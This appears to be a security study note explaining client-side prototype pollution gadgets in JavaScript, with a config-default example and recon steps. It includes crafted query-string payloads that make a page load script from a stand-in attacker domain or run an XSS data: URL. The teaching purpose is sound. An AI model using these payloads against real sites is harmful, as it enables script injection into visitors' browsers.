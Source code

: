 >[!info]
>A property cannot be a gadget if it is defined directly on the object. In that case, the object's own version takes precedence over any malicious version. Robust sites may also set the prototype of the object to `null`, which ensures that it does not inherit any properties at all.

Many JavaScript libraries accept an object that devs can use to set different config options. The library checks whether the dev has added certain properties to the object and if so adjusts the config. If a property that represents a particular option is not present, a predefined default option is often used instead. 

A simple example:

```js
let transport_url = config.transport_url || defaults.transport_url;
```

The library code uses this `transport_url` to add a script reference to the page:

```js
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

IF the devs have not a transport_url property on the config object, it is a potential gadget. In cases where you can pollute the global `Object.prototype` with `transport_url` property, it will be inherited by the `config` object and therefore set as the `src` for this script to a different domain.

If the prototype can be polluted via a query, an attacker would simply induce a victim to visit a crafted URL to cause their browser to import a malicious JavaScript file from an attacker domain:

```html
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```

By providing a `data:` URL, an attacker can directly embed XSS payloads within the query string:

```html
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```

>[!info]
>Note that the trailing // in this example is simply to comment out the hardcoded /example.js suffix.
# Recon

Finding pollution sources is trial and error. Try different ways of adding an arbitrary property to `Object.prototype` until you find a source that works. When testing for client-side vulnerabilities, it involves steps like:

1. Try injecting an arbitrary property via the query string, URL fragment, and any JSON input such as:

```js
vulnerable-website.com/?__proto__[foo]=bar
```

1. In a browser console, inspect `Object.prototype` to see if it successfully polluted with an arbitrary property
